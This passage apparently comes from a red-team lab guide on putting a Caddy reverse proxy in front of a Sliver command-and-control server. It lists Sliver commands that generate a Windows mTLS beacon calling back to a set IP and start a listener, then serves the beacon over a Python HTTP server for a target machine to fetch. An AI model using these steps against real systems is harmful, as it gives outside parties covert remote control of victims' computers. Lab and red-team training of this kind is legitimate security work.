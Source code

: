 The topmost domain is the site targeted for redirection. The domain following the `redir` command is the destination URL and port to where requests will be redirected. The `{uri}` placeholder preserves the original path and query parameters in the redirect. mTLS requests in Sliver are sent over port 8888. The redirect port should be set to this number when using Sliver's mTLS listener. The port number for the target domain should be unique. 

The caddy server is started by issuing the  `caddy start` command.

![](./images/reverse-proxy/2-caddy-start.PNG)

The standard Sliver beacon setup procedure can be used once the Caddy server is up and running:

1. Generate beacon: `generate beacon --mtls 198.18.103.67 --save /tmp/caddy_beacon.exe --skip-symbols -f exe --os windows`

2. Start mTLS listener: `mtls`

5. Set up a server accessible on the target machine: `python3 -m http.server [UNIQUE PORT NUMBER]`

6. Navigate to the server page in the bowser on the target machine. In this example, the page is located at `198.18.107.63:8081`.

![](./images/reverse-proxy/7-python-server.PNG)
